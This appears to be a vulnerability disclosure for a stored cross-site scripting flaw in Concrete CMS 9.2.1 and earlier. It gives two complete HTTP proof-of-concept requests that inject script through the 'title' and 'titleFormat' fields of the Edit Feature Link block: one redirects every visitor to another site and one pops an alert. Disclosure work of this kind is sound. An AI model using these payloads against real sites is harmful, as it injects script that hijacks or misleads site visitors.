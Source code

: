 BUG_Author:
LJWIIE

Affected version:
Concrete CMS versions 9.2.1 and earlier

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks by combining the "titleFormat" and "title" parameters within the "Edit Feature Link" function. This combination may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'titleFormat' and 'title' together contain a Stored Cross-Site Scripting (XSS) vulnerability.

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

window.onload = function() {window.location.href = 'https://www.google.com';};
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/926b6fa4-370b-4532-8b0b-45d3971c1fd1)

Once edited and saved, anyone visiting this page will be forced to visit the Google website. Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

alert("You have been hacked!")
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/dacf7c66-9329-4593-8f9c-91bd9ca0a335)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

